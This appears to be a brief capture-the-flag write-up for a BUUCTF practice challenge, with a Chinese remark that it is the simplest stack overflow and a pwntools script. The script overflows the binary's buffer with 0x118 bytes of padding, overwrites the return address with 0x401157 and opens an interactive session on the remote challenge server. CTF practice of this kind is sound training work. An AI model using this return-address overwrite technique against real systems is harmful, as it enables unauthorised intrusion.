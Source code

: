 # buu082-suctf_2018_basic pwn
最简单的栈溢出。
```python
from pwn import *
context.log_level = 'debug'

# io = process('./SUCTF_2018_basic_pwn')
io = remote('node4.buuoj.cn', 29234)
elf = ELF('./SUCTF_2018_basic_pwn')

io.sendline(cyclic(0x110 + 8) + p64(0x401157))

io.interactive()
```